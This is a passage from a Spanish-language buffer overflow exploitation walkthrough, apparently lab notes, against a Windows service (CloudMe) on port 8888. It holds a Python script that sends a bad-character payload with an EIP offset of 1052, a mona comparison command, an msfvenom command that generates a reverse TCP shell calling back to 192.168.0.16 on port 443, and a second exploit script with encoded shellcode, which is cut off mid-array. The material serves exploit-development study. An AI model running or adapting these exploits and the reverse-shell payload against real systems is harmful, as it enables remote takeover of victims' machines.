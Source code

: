        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0 \xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
        offset = 1052
        before_eip = b"A" * offset
        eip = b"B" * 4

        payload = before_eip + eip + badChars

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((remoteAddress, 8888))
        s.send(payload)

    if __name__ == "__main__":
        executeExploit()
    ```

1. En el Immunity debugger con mona miramos que caracteres no an sido interpretado

    ```{r, echo = FALSE, fig.cap="Buf Bad chars", out.width="90%"}
        knitr::include_graphics("images/Buff-BadChars.png")
    ```

    ```bash
    !mona compare -f C:\Users\S4vitar\Desktop\CloudMe\bytearray.txt -a 0022D470
    ```

En el caso que nos reporte **BadChars** tendriamos que quitarlos de la lista y volver a effectuar lo mismo hasta que no
tengamos mas **BadChars**. Y desde aqui nos podemos crear el script malicioso con la lista de caracteres que tenemos. En 
este caso no hay **BadChars** pero le quitaremos siempre el `\x00` por precaucion.

#### Etapa 6: Creacion del shell code malicioso {-}

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.16 LPORT=443 -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -f c
```

```{r, echo = FALSE, fig.cap="Buf Shell code", out.width="90%"}
    knitr::include_graphics("images/Buff-Shell-code.png")
```

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
```